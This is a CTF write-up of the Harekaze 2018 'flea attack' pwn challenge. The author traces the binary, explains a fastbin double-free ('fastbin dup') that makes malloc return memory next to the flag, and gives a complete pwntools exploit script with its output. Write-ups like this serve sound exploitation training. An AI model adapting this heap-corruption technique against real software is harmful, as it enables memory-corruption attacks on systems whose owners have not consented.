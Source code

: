 ```yaml
---
layout: post
title: "flea attack"
---
```

# flea attack - harekaze ctf 2018 

nc problem.harekaze.com 20175

file: [flea_attack](https://problem.harekaze.com/3bac5c3a7bbcd9b58013de928a4e7ee5b7b6b4c59b0bb8ebbb5def90a7364f8b/flea_attack/flea_attack.elf)

(Pwn, 200 points)

i was unable to finish this problem during the ctf but got pretty close. i read a solution afterwards and ensured that i understood what i did wrong. here's my notes!

i started by checking the binary mitigations in place:

```
[*] '/home/vagrant/harekaze/flea-attack/flea_attack.elf'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x200000)
```

after running the binary i could tell this was likely a heap related memory corruption vulnerability since it was using malloc to store our name:

```
puts("1. Add name"1. Add name
)                                                                                                   = 12
puts("2. Delete name"2. Delete name
)                                                                                                = 15
puts("3. Exit"3. Exit
)                                                                                                       = 8
printf("> "> )                                                                                                          = 2
fgets(1
"1\n", 11, 0x7f46a20828e0)                                                                                      = 0x7ffe9ed3de1c
atoi(0x7ffe9ed3de1c, 0x7f46a2082963, 0x7f46a2084790, 0x7f46a1db5230)                                                  = 1
printf("Size: "Size: )                                                                                                      = 6
fgets(16
"16\n", 11, 0x7f46a20828e0)                                                                                     = 0x7ffe9ed3dddc
atoi(0x7ffe9ed3dddc, 0x7f46a2082963, 0x7f46a2084790, 0x7f46a1db5230)                                                  = 16
malloc(16)                                                                                                            = 0x900250
printf("Name: "Name: )                                                                                                      = 6
read(0fizbaz
, "fizbaz\n", 16)
```

likely a use after free of some kind since we can also free our name with the delete functionality. i could also tell that the address of our flag in memory is given to us:

```
\__libc_start_main(0x201430, 1, 0x7fff61b66a48, 0x201560 <unfinished ...>
setvbuf(0x7fcc663d08e0, 0, 2, 0)                                                    = 0
setvbuf(0x7fcc663d1620, 0, 2, 0)                                                    = 0
setvbuf(0x7fcc663d1540, 0, 2, 0)                                                    = 0
fopen("/home/flea_attack/flag", "r")                                                = 0xe6d010
fgets("flag{flea-attack}\n", 48, 0xe6d010)                                          = 0x204080
printf("Some comment this note:"Some comment this note:)                                                   = 23
read(0^C <no return ...>
--- SIGINT (Interrupt) ---
+++ killed by SIGINT +++
```

since there was no obvious way to redirect execution simply with the name allocations i decided to look into other options, i've been playing with the examples in team shellphish's [how2heap](https://github.com/shellphish/how2heap) repository lately and found [one](https://github.com/shellphish/how2heap/blob/master/fastbin_dup_into_stack.c) that was directly applicable to this challenge; 'fastbin dup into stack' which allows one to trick malloc into returning a chunk of memory in segments other than the heap.

i was able to get this working in the flea\_attack challenge by adding 3 names of the same size (call them a, b, and c) delete name a, followed by b, followed by a again, add name a again with the same size and the name <address of flag - some offset>, add name d, e of the same size and finally name f of the same size but this time with enough characters to fill our offset from <address of flag>. the only caveat is i needed to provide the fake chunk size in the debugger. i couldn't figure out how to do this with the pwn script. my idea was that i could provide the fake size with the initial prompt which asks the user for a comment. this much i was right about however i couldn't figure out how to provide a fake chunk size that malloc trusted. i kept getting errors like ```*** Error in './flea_attack.elf': malloc(): memory corruption (fast): 0x000000000184e240```. in gdb when using a fake size of 0x20 and a chunk size of 16 i was able to get the flag. the part i couldn't figure out in time was how to bypass the appending of the newline character in our comment which i was using to write our fake chunk size.looking back it was such a silly thing to get stuck on!! here's the code responsible for this functionality decompiled in hexrays:

```C
unsigned int original_fgets(char *buf, unsigned int sz) {
    char *result;
    unsigned int i;
    for (i = 0; ++i) {
        result = i;
        if (i >= sz - 1) break;
        read(0, buf+i; 1);
        if ( !( *(buf+i) ) ) {
            *(buf + i) = '\n';
LABEL_7:
            result = buf;
            *(buf + 1 + i) = 0;
            return result;
        }
        if ( *(buf + i) == '\n' ) {
            goto LABEL_7;
        }
    }
}
```

it looks like we had an 'fgets' written just for us! looking at this now all we had to do was figure out that if we wrote our own newline in our input then it would leave the bytes in our buffer as they are (null bytes) effectively allowing us to write 0x00000020 or whatever other size we'd like to our fake size and set up the chunk so that the fake size lands right at the end of our input.

here's my final solution:

```python
#!/usr/bin/python

from pwn import *

host = 'problem.harekaze.com'
port = 20175

REMOTE = True
#REMOTE = False
DEBUG = False
#DEBUG = True

def getpipe():
    if REMOTE:
        return remote(host,port)
    return process('./flea_attack.elf')

def add_name(name, sz):
    global r
    r.recvuntil('> ')
    r.sendline('1')
    r.recvuntil('ze: ')
    r.sendline('{}'.format(sz))
    r.recvuntil('me: ')
    r.sendline('{}'.format(name))
    r.recvuntil('ddr: ')
    return r.recvline()

def flag_name(name, sz):
    global r
    r.recvuntil('> ')
    r.sendline('1')
    r.recvuntil('ze: ')
    r.sendline('{}'.format(sz))
    r.recvuntil('me: ')
    r.sendline('{}'.format(name))
    log.success(r.recvuntil('> '))

def delete_name(addr):
    global r
    r.recvuntil('> ')
    r.sendline('2')
    r.recvuntil('ddr: ')
    r.sendline('{}'.format(addr))

gdbscript = '''
b original_fgets
'''

r = getpipe()

if DEBUG:
    gdb.attach(r, gdbscript)

r.recvuntil('note:')

r.sendline('a' * 94 + p8(0x71))

sz = 96

a = add_name('aaaaaaa', sz)
b = add_name('bbbbbbb', sz)
c = add_name('ccccccc', sz)

delete_name(a)
delete_name(b)
delete_name(a)

flag = 0x204056

log.info('flag is at: {}'.format(hex(flag)))

a = add_name(p64(flag), sz)

add_name('AAAA', sz)
add_name('BBBB', sz)

flag_name('A'*25, sz)

'''
[+] Opening connection to problem.harekaze.com on port 20175: Done
[*] flag is at: 0x204056
[+] Done!
    Name: AAAAAAAAAAAAAAAAAAAAAAAAA
    HarekazeCTF{5m41l_smal1_f1ea_c0n7rol_7h3_w0rld}
    Addr: 204066
    1. Add name
    2. Delete name
    3. Exit
    > 
[*] Closed connection to problem.harekaze.com port 20175
'''
```
